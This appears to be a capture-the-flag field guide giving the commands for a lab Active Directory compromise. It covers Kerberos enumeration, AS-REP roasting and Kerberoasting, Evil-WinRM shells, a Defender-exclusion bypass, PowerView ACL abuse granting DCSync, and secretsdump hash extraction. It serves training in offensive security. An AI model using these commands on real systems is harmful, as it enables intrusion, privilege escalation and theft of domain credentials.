 # 🛡️ Cyber Warfare 2025 CTF - Operator Field Guide

This guide walks through common offensive operations used in the CTF scenario. Each command is provided with a brief explanation to help players understand the "why" behind each step.

---

## 🔍 Nmap Reconnaissance

### Full TCP Port Scan (Aggressive Timing)

```bash
sudo nmap -Pn -T5 -p- --open 192.168.68.70
```

- `-Pn`: Skip host discovery, assume host is up  
- `-T5`: Use the most aggressive timing template  
- `-p-`: Scan all 65535 TCP ports  
- `--open`: Only show ports that are open  

---

### Targeted Script & Version Scan

```bash
sudo nmap -sC -sV -r -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -T5 10.3.32.11 --reason --open
```

- `-sC`: Run default scripts  
- `-sV`: Detect service versions  
- `-r`: Scan ports consecutively (no randomization)  
- `--reason`: Show why a port is considered open  
- `--open`: Show only open ports  

---

## 👥 Kerberos Username Enumeration

### Enumerate Potential Usernames

```bash
./kerbrute_linux_amd64 userenum -d l33thackers.stellar.tech --dc 10.3.32.11 /Tools/Wordlists/xato-net-10-million-usernames.txt -o l33tusers.txt
```

- Uses `kerbrute` to identify valid usernames via Kerberos responses.

---

### Clean Up the User List

```bash
cat l33tusers.txt | cut -f 8 -d ' ' | sed 's/@l33thackers.stellar.tech//g' | sort | uniq -i | tee l33tuserscleaned.txt
```

- Extracts usernames, removes domain suffixes, and filters duplicates.

---

## 🔐 AS-REP Roasting

### Request AS-REP Tickets (No Preauth)

```bash
impacket-GetNPUsers -request -usersfile l33tuserscleaned.txt -dc-ip 10.3.32.11 'l33thackers.stellar.tech/' -outputfile l33tpreauthtickets.txt
```

- Finds Kerberos accounts without pre-authentication (AS-REP roastable).

---

### Crack AS-REP Tickets with John the Ripper

```bash
john --wordlist=/Tools/Wordlists/rockyou.txt l33tpreauthtickets.txt
```

- Attempts to crack AS-REP hashes using a wordlist.

---

## 📁 SMB Enumeration & Access

### List Shares

```bash
smbclient -U=l33thackers.stellar.tech/funguy --password=outputfromjohn -L //10.3.32.11
```

### Connect to a Share

```bash
smbclient -U=l33thackers.stellar.tech/funguy --password=outputfromjohn -L \\10.3.32.11\victims
```

- Use `get <filename>` to download files once connected.

---

## 🎯 SPN Enumeration & Kerberoasting

### Enumerate SPNs via LDAP

```bash
ldapsearch -x -H ldap://10.3.32.11 -D 'tou@l33thackers.stellar.tech' -w 'password' -b "DC=l33thackers,DC=stellar,DC=tech" | grep -i -C 5 servicePrincipalName: | grep -i -C 5 @l33t
```

- Searches LDAP for accounts with Service Principal Names (SPNs).

---

### Request SPN Tickets

```bash
impacket-GetUserSPNs -request -dc-ip 10.3.32.11 l33thackers.stellar.tech/tou:'password' -outputfile l33tspnauthtickets.txt
```

- Grabs service tickets to be cracked.

---

### Crack SPN Hashes with Hashcat

```bash
hashcat -m 13100 -a 0 l33tspnauthtickets.txt /Tools/Wordlists/rockyou.txt
```

- Attempts to crack Kerberos service ticket hashes (Kerberoasting).

---

## 💻 Remote Shell Access

### Evil-WinRM Access

```bash
evil-winrm -i 10.3.32.11 -u 'svcsql@l33thackers.stellar.tech' -p 'password'
```

- Opens an interactive remote PowerShell session using Evil-WinRM.

---

## 🧨 BloodHound Enumeration

### Upload & Run SharpHound

```bash
upload SharpHound.exe
.\SharpHound.exe -c all --domain l33thackers.stellar.tech --ldapusername svcsql --ldappassword password
```

---

### AV Bypass Check (Find Excluded Paths)

```powershell
Get-ChildItem -Path "C:\" -Directory -Recurse -Force -ErrorAction SilentlyContinue | ForEach-Object {
  & "C:\Program Files\Windows Defender\MpCmdRun.exe" -Scan -ScanType 3 -File "$($_.FullName)\*" 2>&1 |
  Where-Object { $_ -notmatch "failed" } |
  Where-Object { $_ -notmatch "Scan starting..." }
}
```

> If `C:\doom` is excluded, re-upload and rerun `SharpHound` from that directory.

---

## 🧭 Post-Exploitation With PowerView

### Upload & Import PowerView

```powershell
Import-Module .\PowerView.ps1
```

### Enumerate Permissions & ACLs

```powershell
ConvertTo-SID -Identity svcsql
Get-DomainObjectAcl -ResolveGUIDs | Select-String -Pattern "SID" | Select-String -Pattern "Extended" | Select-String -NotMatch -Pattern "svcsql" | Select-String -NotMatch -Pattern "Policies"
```

---

## 🧪 Privilege Escalation

### Reset Password for a User

```powershell
Set-DomainUserPassword -Identity kingjames -AccountPassword (ConvertTo-SecureString 'Password123!!' -AsPlainText -Force) -Verbose
```

### Add User to Admin Group

```powershell
Add-ADGroupMember -Identity 'Stellar Admins' -Members kingjames
```

### Modify ACL for DCSync Rights

```powershell
Import-Module .\PowerView.ps1
$username = "l33thackers.stellar.tech\kingjames"; 
$password = "Password123!!"; 
$secstr = New-Object -TypeName System.Security.SecureString; 
$password.ToCharArray() | ForEach-Object { $secstr.AppendChar($_) }; 
$cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $username, $secstr;

Add-DomainObjectAcl -Credential $cred -PrincipalIdentity 'kingjames' -TargetIdentity 'l33thackers.stellar.tech\Domain Admins' -Rights DCSync
```

---

## 🧵 Extract Secrets with Impacket

```bash
impacket-secretsdump kingjames:Password123!!@10.3.32.11
```

- Dumps NTLM hashes and secrets from the domain controller.

---

### 🎉 Mission Accomplished

> You've leveraged your skills to enumerate, pivot, escalate, and extract valuable data. Don't forget to document your findings and submit the flag to claim your spot on the scoreboard.
